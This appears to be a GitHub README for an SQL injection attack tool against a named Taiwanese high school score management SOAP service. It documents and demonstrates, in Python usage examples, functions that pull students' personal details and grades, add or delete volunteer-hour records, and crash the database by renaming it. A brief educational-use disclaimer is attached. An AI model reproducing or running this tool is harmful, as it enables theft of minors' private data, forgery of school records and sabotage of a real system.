 # TNSQLI Proof of Concept (PoC)

## Overview
This repository demonstrates a Proof of Concept (PoC) for SQL Injection vulnerabilities in the `tnNewscorews` web service of the Taiwanese high school score management system. The tool interacts with a SOAP-based API to perform malicious SQL queries and retrieve sensitive information.

> **Warning:** This code is intended for educational purposes and authorized security testing only. Unauthorized use of this script on live systems is illegal and unethical.

## Features
- **SQL Injection:** Exploits vulnerable SOAP APIs to execute unauthorized SQL queries.
- **Data Extraction:** Retrieves detailed student information, grades, teacher records, and attendance statistics.
- **Database Manipulation:** Allows insertion, deletion, and modification of records.
- **Database Operations:** Includes database renaming for crash simulations.

## Requirements
- Python 3.7+
- `requests` library
- `xml.etree.ElementTree` for XML parsing

Install dependencies using:
```bash
pip install requests
```

## File Structure
- `tnscorews_sqli.py`: The main Python file containing the `tnscorews_sqli` class for interacting with the SOAP API.

## Usage
### Initialization
Create an instance of the `tnscorews_sqli` class:
```python
from tnsqli import tnscorews_sqli

tnsqli = tnscorews_sqli()
```

### Retrieve Student Information
Retrieve a student's details by name:
```python
student_info = tnsqli.Get_Student_Info_By_Name("John Doe")
print(student_info)
```

Retrieve a student's details by school code and name:
```python
student_info = tnsqli.Get_Student_Info_By_Sch_And_Name("12345", "John Doe")
print(student_info)
```

### Manipulate Database
Rename the primary student database:
```python
tnsqli.CrashDB()
```

Restore the original database name:
```python
tnsqli.FixDB()
```

### Add or Remove Records
Add volunteer service hours for a student:
```python
tnsqli.Add_Volunteer(
    sch_code="12345",
    std_no="67890",
    sch_year="2024",
    sch_term="1",
    hours="10",
    service_contents="Community Service",
    writer_id_no="A123456789",
    writer_name="Teacher A"
)
```

Remove a volunteer record by ID:
```python
tnsqli.Remove_Volunteer_By_Id(123)
```

## Legal Disclaimer
This project is intended for **educational purposes only**. The use of this code against any system without explicit permission is strictly prohibited. The author assumes no liability for misuse.
